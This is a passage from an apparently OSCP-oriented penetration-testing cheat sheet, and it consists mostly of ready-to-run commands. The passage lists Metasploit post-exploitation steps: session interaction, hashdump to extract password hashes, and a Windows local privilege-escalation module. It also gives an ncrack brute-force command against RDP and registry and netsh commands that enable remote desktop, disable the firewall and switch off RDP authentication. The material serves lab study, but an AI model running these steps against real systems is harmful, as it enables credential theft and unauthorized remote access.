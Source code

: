 show options

show targets

exploit

exploit


sessions -i 3

sysinfo

hashdump

run hashdump

history

use exploit/windows/local/ms14_058_track_popup_menu 


#### Weak passwords

Remote desktop

ncrack -vv --user george -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS


### GET GUI s


#### Enable RDP

See section of terminal services in the red team field manual or check the methodologies tab in your PWK xls workbook. 

See wmic section in the red team field manual

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off

netsh firewall set opmode disable

Or like this

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?

Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

#### Enable windows 8 remote desktop
